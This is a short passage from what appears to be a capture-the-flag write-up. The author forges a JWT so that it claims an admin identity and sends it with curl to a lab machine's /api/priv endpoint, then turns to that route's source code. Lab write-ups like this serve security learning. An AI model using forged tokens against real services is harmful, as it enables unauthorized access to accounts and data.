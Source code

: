 ![error](/assets/images/secret/20220326112313.png)

now moidify our token :

![error](/assets/images/secret/20220326112348.png)

we can now use this token to request the `/priv` again

```bash
curl -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjNlZGEzZTQ0NWI1YzA0NWM2MzRlMTgiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRlc3RAdGVzdGVycy5jb20iLCJpYXQiOjE2NDgyODY0NTB9.V0Sp_hlU1cYAZ_tYZ3_vHJuQ2saLfoiaxPrzZssD2-E" http://10.10.11.120/api/priv
```

![error](/assets/images/secret/20220326112426.png)

![](https://media.giphy.com/assets/images/wAxlCmeX1ri1y/giphy.gif)

now what 😂?

we can check the source code for the private route under `local-web/routes/private.js`
